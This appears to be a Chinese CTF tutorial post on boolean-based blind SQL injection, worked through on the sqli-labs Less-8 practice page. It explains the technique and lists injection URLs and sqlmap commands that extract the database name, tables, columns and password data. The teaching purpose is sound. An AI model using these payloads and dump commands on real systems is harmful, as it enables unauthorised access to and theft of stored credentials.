<!--
author: maomao
title:2.7　sql注入之布尔盲注
category: 五行八卦
status: publish
summary:
盲注是sql注入的一种，之所以成为盲注是因为他不会根据你sql注入的攻击语句返回任何你想知道的信息。

-->

##一、免责声明

该课程中涉及的技术只适合于CTF比赛和有合法授权的渗透测试。请勿用于其他非法用途，如果作于其他非法用途，与本文作者无关。

##二、什么是盲注

盲注是sql注入的一种，之所以成为盲注是因为他不会根据你sql注入的攻击语句返回任何你想知道的信息。

盲注分为两类：

１．布尔盲注

首先来看一下布尔的概念

布尔盲注时，界面分为两种。正常的页面和错误的页面。也就是说在网站注入过程中会有很明显的ture跟fales。如果是ture则返回网站正常页面，如果是是fales则返回一个错误页面，但是页面上并没有错误信息。

２．时间盲注

时间注入的页面只有一种，无论输入什么值，都是返回正常的页面。但是，我们可以输入特定的时间函数，通过查看web页面的时间差来判断注入的语句是否正确。

##三、布尔型注入函数

1.length()

返回字符串的长度



2.substr()

用来截取截取字符串，用法如下：

>substr(string,start,length);
string为字符串；
start为起始位置(数字)；
length为长度(数字)

我们先进入security库


３．ascii()

返回字符串 str 中最左边字符的 ASCII 代码值。如果该字符串为空字符串，则返回0。如果字符串为 NULL 则返回 NULL。因为ASCII码表能表示的字符为256个，所以ASCII() 返回值在0-255之间。 示例如下：



##四、二分法查找

假设数据是按升序排序的，对于给定值 x，从序列的中间位置开始比较，如果当前位置值等于 x，则查找成功；若 x 小于当前位置值，则在数列的前半段中选择中间的再次查找；若 x 大于当前位置值则在数列的后半段中选择中间的数继续查找，直到找到为止。所以二分法查找的速度比较快,次数比较少,性能比较好

##五、题目地址

>http://xx.xx.xx.xx:8080/sql/Less-8/index.php?id=1

##六、实战

１．判断注入类型

加单引号发现页面出现变化，但并并没有爆出错误。于是，我们采用上节课程的and 1=1.

>http://xx.xx.xx.xx:8080/sql/Less-8/index.php?id=1' and 1=1 --+



>http://xx.xx.xx.xx:8080/sql/Less-8/index.php?id=1' and 1=2 --+

由上可知，单引号成功闭合。而且符合布尔型盲注的条件。

２．猜测数据库长度

>http://xx.xx.xx.xx:8080/sql/Less-8/index.php?id=1' and (length(database()))<10--+

页面返回正常，说明数据库的长度小于10，根据二分法。接下来我们尝试５

>http://xx.xx.xx.xx:8080/sql/Less-8/index.php?id=1' and (length(database()))>5--+



发现页面返回成功，说明当前数据库的长度在5-10之间。然后依次继续尝试，最后我们得出数据库的长度为８位



3.爆数据库

我们进行判断的时候因为是用ascii进行判断的，所以我们判断完成以后还需要吧ascii转换成相应的数值。首先我们分享一个acill码表

>https://tool.oschina.net/commons?type=4

首先，我们来猜测数据库名的第一个字母

>http://xx.xx.xx.xx:8080/sql/Less-8/index.php?id=1%27%20and%20(ascii(substr(database(),1,1)))%3E100--+

返回成功，第一个字母的ascii值大于100.

继续判断

http://xx.xx.xx.xx:8080/sql/Less-8/index.php?id=1%27%20and%20(ascii(substr(database(),1,1)))>120--+



报错，说明第一个字符的ascii值在100到120之间。继续判断。。。。

最终得出，第一个字符的ascii值是115



对照我们上面的ascll表，可以得出一个字母是s



然后，我们改变substr的第二个参数，继续判断，链接如下

http://xx.xx.xx.xx:8080/sql/Less-8/index.php?id=1%27%20and%20(ascii(substr(database(),2,1)))=115--+

继续采用二分法依次判断。再次不在过多叙述。

最终得出当前数据库的库名为security.

4.猜测表命

猜测表明的链接如下：

>http://xx.xx.xx.xx:8080/sql/Less-8/index.php?id=1%27%20and(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))<116--+

具体方法同上，仍然是使用二分法在此不过多叙述。

5.猜测列名

>http://xx.xx.xx.xx:8080/sql/Less-8/index.php?id=1%27%20and (ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)))>100 --+

６.猜测数据

>http://xx.xx.xx.xx:8080/sql/Less-8/index.php?id=1%27%20and  (ascii(substr(( select password from users limit 0,1),1,1)))=68--+

##七、sqlmap简单使用

盲注测试繁琐又复杂。。首先建议大家手工尝试一下，理解其注入的原理。然后给大家推荐一下sqlmap的使用，毕竟使用sqlmap进行盲注会简单的多。

关于sqlmap的安装在此不在叙述，在稍后的课程中会详细讲明。在下面推荐安装链接
。

>https://blog.csdn.net/baigoocn/article/details/51456721

本人是在kali上使用的sqlmap。某些版本的sqlmap在使用是需要在前面加python.

1.判断是否存在注入

>sqlmap -u xx.xx.xx.xx:8080/sql/Less-8/index.php?id=1

中间有选项，一路默认即可。然后发现其存在布尔盲注以及时间盲注。

2.爆数据库

>sqlmap -u xx.xx.xx.xx:8080/sql/Less-8/index.php?id=1 --dbs

3.我们选择security这个数据库，然后爆表

>sqlmap -u xx.xx.xx.xx:8080/sql/Less-8/index.php?id=1 -D --tables

4.然后我们选择user这个表，然后爆字段

>sqlmap -u xx.xx.xx.xx:8080/sql/Less-8/index.php?id=1 -D security -T users --columns



5.接下来我们导出字段

> sqlmap -u xx.xx.xx.xx:8080/sql/Less-8/index.php?id=1 -D security -T users -C id,password,username --dump



成功导出数据。

##八、课后习题

习题地址：https://t.zsxq.com/QJEEAqF

##九、小结

CTF（web和内网渗透系列教程）的清单请在“https://github.com/xuanhun/HackingResource” 查看，定时更新最新章节链接

答疑、辅导请加入玄魂工作室--安全圈，一起成长探讨更私密内容。微信扫码了解详情：

及时获取更多消息，请关注微信订阅号

